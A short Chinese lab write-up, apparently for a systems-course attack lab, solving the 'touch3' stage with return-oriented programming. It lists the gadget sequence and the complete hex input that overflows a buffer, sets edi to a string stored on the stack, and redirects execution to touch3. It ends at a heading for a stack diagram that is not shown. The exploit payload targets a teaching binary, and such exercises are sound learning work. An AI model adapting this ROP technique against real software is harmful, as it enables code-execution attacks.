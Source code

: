 
用ROP实现touch3

实现要求:

1. 存储字符串到栈中, 避免不被覆盖
2. 将edi的值设置为正确地址

gadgets序列如下

``` assembly
# 汇编代码
popq %rax
mov %eax, %edx
mov %edx, %ecx
mov %ecx, %esi
mov %rsp, %rax
mov %rax, %rdi
lea (%rdi,%rsi,1),%rax
mov %rax, %rdi
```

输入的数据如下

``` 
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
ab 19 40 00 00 00 00 00	# popq %rax
20 00 00 00 00 00 00 00	# popq的数据
dd 19 40 00 00 00 00 00	# mov %eax, %edx
69 1a 40 00 00 00 00 00	# mov %edx, %ecx
13 1a 40 00 00 00 00 00	# mov %ecx, %esi
06 1a 40 00 00 00 00 00	# mov %rsp, %rax
a2 19 40 00 00 00 00 00	# mov %rax, %rdi
d6 19 40 00 00 00 00 00	# lea (%rdi,%rsi,1),%rax
a2 19 40 00 00 00 00 00	# mov %rax, %rdi
fa 18 40 00 00 00 00 00	# touch3的地址
35 39 62 39 39 37 66 61	# 存储的字符串
```

栈帧如下
